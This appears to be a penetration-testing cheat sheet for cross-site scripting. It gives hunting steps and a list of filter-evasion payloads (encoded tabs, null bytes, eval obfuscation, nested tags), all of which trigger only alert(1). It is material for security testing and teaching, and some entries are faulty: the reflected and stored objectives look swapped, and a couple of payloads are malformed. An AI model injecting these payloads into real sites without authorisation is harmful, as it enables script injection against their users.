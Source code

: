 # XSS Cheat Sheet

## Active XSS Hunting

### Attack Strategy

#### Reflected XSS
1. **Test Objectives:**
   - Identify where a value is stored into the DB and reflected back onto the page.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review can be effective for identifying input vectors.

3. **Step 2 - Analyse the Results:**
   - Depending on the context, analyze the results of the reflected XSS attack.
   - Check the impact of the attack vector.

#### Stored XSS
1. **Test Objectives:**
   - Identify where a value is reflected into the response.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review is effective for identifying input vectors.

3. **Step 2 - Analyse the Results:**
   - Depending on the context, analyze the results of the stored XSS attack.
   - Check the impact of the attack vector.

#### DOM XSS
1. **Test Objectives:**
   - Identify where a value is put into a DOM sink and reflected back onto the page.
   - Assess the input they accept and try to bypass filters.

2. **Step 1 - Detect Input Vectors:**
   - Test all parameters for potential vulnerabilities.
   - Static code review can help identify input vectors.

3. **Step 2 - Analyse the Results:**
   - Find DOM sinks by entering a random value and inspecting the developer console.
   - Check the impact of the attack vector.

## Passive XSS Hunting

### Attack Strategy

- Enter "'`><u>Rat was here<img src=x> into every field during registration.
- Inject into names and content of every object created.

### Filter Evasion Techniques

#### Basic Modifications
- Adding spaces, encoding tabs, newlines, and carriage returns.

#### Tags
```html
<script>alert(1)</script>
<script >alert(1)</script>
<script >alert(1)</script>
```

#### Encoded Tabs/Newlines/CR
```html
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>
```

#### Capital Letters
```html
ScRipT>alert(1)</sCriPt>
```

#### Adding Nullbytes
```html
%00script>alert(1)</script>
<script>al%00ert(1)</script>
```

#### Delimiters and Brackets
```html
<img onerror="alert(1)" src=x>
<img onerror='alert(1)' src=x>
```

#### URL Encoding
```html
<img onerror=&#34alert(1)&#34 src=x>
<img onerror=&#39alert(1)&#39 src=x>
```

#### Backticks
```html
<img onerror= alert(1) src=x>
<img onerror=&#96alert(1)&#96 src=x>
```

#### Double Use of Delimiters
```html
<<script>alert(1)//<</script>
```

#### Unknown Delimiters
```html
«input onsubmit=alert(1)»
```

#### Encoded Eval()
```html
<script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41)</script>
```

#### Using Filtered Words
```html
<scrscriptipt>alert(1)</scrscriptipt>
```

### Passive XSS Hunting
- Inject the payload into every field during registration and object creation.
- If a reflected value is encountered, determine the context.

## Notes
- When encountering a filtered script, consider variations or using different delimiters.
- Use the developer console for DOM XSS, and inspect source won't show DOM elements.

Happy hacking! 🚀✨
